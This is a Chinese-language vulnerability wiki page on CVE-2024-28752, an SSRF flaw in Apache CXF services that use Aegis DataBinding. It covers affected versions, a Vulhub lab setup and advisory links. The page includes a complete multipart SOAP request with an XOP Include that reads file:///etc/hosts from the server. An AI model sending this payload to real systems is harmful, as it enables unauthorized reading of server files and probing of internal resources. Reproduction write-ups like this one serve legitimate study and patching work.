



# Apache CXF Aegis DataBinding 服务端请求伪造漏洞 CVE-2024-28752

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：使用非默认Aegis绑定、至少任意类型参数的Web服务、相关multipart/XOP处理可达
- 证据范围：正文明确默认绑定不受影响，file URI结果依赖截图和解码；SSRF可包含本地URL读取

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 三个<版本应限定各分支，元数据仅4.0.4可能错误覆盖安全3.x
- 环境服务接口自定义test需源码/镜像目录；参数名不是所有CXF通用
- 缺最早受影响版本，修复可明确4.0.4/3.6.3/3.5.8而非只最新

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache CXF 是一个开源的服务框架，帮助开发者使用 JAX-WS 和 JAX-RS 等前端编程 API 构建和开发服务。

Apache CXF 在 4.0.4、3.6.3 和 3.5.8 版本之前存在一个使用 Aegis DataBinding 的 SSRF 漏洞，该漏洞允许攻击者对接受至少一个任意类型参数的 Web 服务执行 SSRF 攻击。此漏洞专门影响使用 Aegis DataBinding 的服务，而使用其他数据绑定 (包括默认数据绑定) 的服务不受影响。攻击者可以利用此漏洞通过让服务器向任意 URL 发送请求来访问内部资源，这可能导致信息泄露或对内部系统的进一步攻击。

参考链接：

- http://www.openwall.com/lists/oss-security/2024/03/14/3
- https://cxf.apache.org/security-advisories.data/CVE-2024-28752.txt
- https://github.com/advisories/GHSA-qmgx-j96g-4428
- https://nvd.nist.gov/vuln/detail/CVE-2024-28752
- https://github.com/ReaJason/CVE-2024-28752

## 漏洞影响

```
Apache CXF ＜ 4.0.4
Apache CXF ＜ 3.6.3
Apache CXF ＜ 3.5.8
```

## 环境搭建

Vulhub 执行如下命令启动一个存在漏洞的 Apache CXF Web 服务，该服务使用 Aegis DataBinding：

```shell
docker compose up -d
```

服务启动后，存在漏洞的 CXF Web 服务将可以通过 `http://your-ip:8080/test?wsdl` 访问。该服务配置为使用 Aegis DataBinding 并接受各种参数类型，使其容易受到 SSRF 攻击。




## 漏洞复现

发送如下请求即可触发 SSRF 读取 `/etc/hosts` 文件内容：

```http
POST /test HTTP/1.1
Host: your-ip:8080
Content-Type: multipart/related; boundary=----foo
Content-Length: 472
Connection: close

------foo
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------foo--
```




解码：




## 漏洞修复

官方已发布安全更新，建议升级至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
